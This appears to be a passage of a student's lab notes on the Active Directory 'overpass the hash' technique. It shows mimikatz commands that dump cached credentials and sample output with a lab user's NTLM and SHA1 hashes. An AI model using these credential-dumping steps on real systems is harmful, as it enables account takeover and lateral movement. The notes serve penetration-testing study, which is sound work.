 + However, due to the 2014 security update, this technique can not be used to authenticate as any other local admin account

### Overpass the Hash
With _overpass the hash_, we can "over" abuse an NTLM user hash to gain a full Kerberos _Ticket Granting Ticket_ (TGT)
+ Then we can use the TGT to obtain a _Ticket Granting Service_ (TGS)

To demonstrate this, let's assume we have compromised a workstation (or server) that _jen_ has authenticated to
+ We'll also assume that the machine is now caching their credentials (and therefore, their NTLM password hash)

To simulate this cached credential, we will log in to the Windows 10 CLIENT76 machine as _jeff_ and run a process as _jen_, which prompts authentication
+ The simplest way to do this is to right-click the Notepad icon on the desktop then shift-left click "show more options" on the popup, yielding the options below
![[Pasted image 20240107183632.png]]

From here, we enter **jen** as the username along with the associated password, which will launch Notepad in the context of that user
+ After successful authentication, _jen_'s credentials will be cached on this machine
+ We can validate this with the **`sekurlsa::logonpasswords`** command from **mimikatz** after having spawned an Administrative shell
+ The command will dump the cached password hashes:
``` Shell
mimikatz # privilege::debug
Privilege '20' OK
mimikatz # sekurlsa::logonpasswords

...
Authentication Id : 0 ; 1142030 (00000000:00116d0e)
Session           : Interactive from 0
User Name         : jen
Domain            : CORP
Logon Server      : DC1
Logon Time        : 2/27/2023 7:43:20 AM
SID               : S-1-5-21-1987370270-658905905-1781884369-1124
        msv :
         [00000003] Primary
         * Username : jen
         * Domain   : CORP
         * NTLM     : 369def79d8372408bf6e93364cc93075
         * SHA1     : faf35992ad0df4fc418af543e5f4cb08210830d4
         * DPAPI    : ed6686fedb60840cd49b5286a7c08fa4
        tspkg :
        wdigest :
         * Username : jen
         * Domain   : CORP
         * Password : (null)
        kerberos :
         * Username : jen
         * Domain   : CORP.COM
         * Password : (null)
        ssp :
        credman :
...
```
+ This output shows _jen_'s cached credentials under _jen_'s own session
+ It includes the NTLM hash, which we will leverage to overpass the hash


[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname
